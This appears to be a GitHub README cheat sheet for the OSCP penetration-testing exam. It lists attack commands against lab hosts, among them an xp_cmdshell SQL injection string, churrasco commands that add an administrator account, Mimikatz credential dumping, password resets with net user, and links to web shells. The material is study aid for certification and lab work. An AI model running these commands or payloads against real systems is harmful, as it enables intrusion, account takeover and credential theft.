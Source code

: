 # JustTryHarder
Just Try Harder and pass the OSCP!



Active Directory & Domain Controllers
----------------
- http://web.archive.org/web/20141004091538/http://www.slaughterjames.com/blog/2012/10/23/hacking-a-domain-controller-part-1-enumeration.html

- http://web.archive.org/web/20160417135414/http://www.slaughterjames.com/blog/2012/10/30/hacking-a-domain-controller-part-2-easy-pwnage.html

DNS - Zone Transfers
----------------
host -t axfr test.local 10.10.10.10

host -l test.local 10.10.10.10

File Transfers
----------------
Wget Transfer
How to retrieve file(s) from host (inside a reverse shell)

	1. Place file you want transferred in /var/www/html/
	2. # service apache2 start
	3. # wget http://10.10.10/pspy64 <- for single file
  	4. # wget -r http://10.10.10.10/pspy64/ <- for folder

MSSQL
----------------
- EXEC master..xp_cmdshell 'whoami';
- meh' exec master..xp_cmdshell 'whoami' --

Priv Esc - Linux
----------------
- grep -Ri 'password' .
- find / -perm –4000 2>/dev/null
- find / -user root -perm -4000 -exec ls -ldb {} \;

Priv Esc - Windows
----------------
 - c:\Inetpub>churrasco -d "net user /add <username> <password>"
 - c:\Inetpub>churrasco -d "net localgroup administrators <username> /add"
 - c:\Inetpub>churrasco -d "NET LOCALGROUP "Remote Desktop Users" <username> /ADD"

Post Exploitation
----------------
- Mimikatz.exe (run it)

- privilege::debug

- sekurlsa::logonpasswords

Port Scanning
----------------
reconnoitre -t 10.10.10.10 -o . --services --quick --hostnames

nmap -sT -sU -p- --min-rate 10000
nmap -sT -sU -p <open ports seperated by ,'s> -A
obviously drop -sU if no UDP ports are open
- TCP
nmap -p- -iL ips.txt > AllTCPPorts.txt 
 
- UDP (can take hours so maybe netstat is a better alternative)
nmap -p- -sU -iL ips.txt > udp.txt 
nmap -sU -sV -iL ips.txt > alludpports.txt 
 
- SNMP
nmap -p161 -sU -iL ips.txt > udp.txt  (cmd could be wrong, double check)
 
- SSH
nmap --script ssh2-enum-algos -iL ips.txt > SSH.txt 
 
- SSL
nmap -v -v  --script ssl-cert,ssl-enum-ciphers,ssl-heartbleed,ssl-poodle,sslv2 -iL ips.txt > SSLScan.txt 

Pivoting
----------------
sshuttle -r user@10.10.10.10 10.1.1.0/24

Shell Upgrading
----------------
- In reverse shell

1. python -c 'import pty; pty.spawn("/bin/bash")'
2. Ctrl-Z

- In Kali

3. stty raw -echo
4. fg

- In reverse shell
5. reset (sometimes optional)
6. export SHELL=bash
7. export TERM=xterm-256color
8. stty rows <num> columns <cols> (optional)

Show listening ports
----------------
- Linux netstat syntax
	1. netstat -tulpn | grep LISTEN

- FreeBSD/MacOS X netstat syntax
	1. netstat -anp tcp | grep LISTEN
	2. netstat -anp udp | grep LISTEN
	
- OpenBSD netstat syntax

	1. netstat -na -f inet | grep LISTEN
	2. netstat -nat | grep LISTEN

- Nmap scan syntax
	1. sudo nmap -sT -O localhost
	2. sudo nmap -sU -O 192.168.2.13 ##[ list open UDP ports ]##
	3. sudo nmap -sT -O 192.168.2.13 ##[ list open TCP ports ]##

SMB - Impacket
----------------
- Impacket's PSEXEC
/usr/share/doc/python-impacket/examples/psexec.py user@10.10.10.10

Password: (password)

[*] Trying protocol 445/SMB...

- Impacket's SMBServer
cd /usr/share/windows-binaries
python /usr/share/doc/python-impacket/examples/smbserver.py a .

SMTP Enumeration
----------------
https://github.com/s0wr0b1ndef/OSCP-note/blob/master/ENUMERATION/SMTP/smtp_commands.txt


Web Shells
----------------
- https://github.com/Arrexel/phpbash
- https://github.com/flozz/p0wny-shell

WordPress
----------------
- https://forum.top-hat-sec.com/index.php?topic=5758.0

Windows Framework / Powershell
----------------
- https://github.com/samratashok/nishang
- https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- https://github.com/rasta-mouse/Sherlock

Windows Post Exploitation Commands
----------------
- net user
- net user USERNAME NEWPASS
- net user "USER NAME" NEWPASS
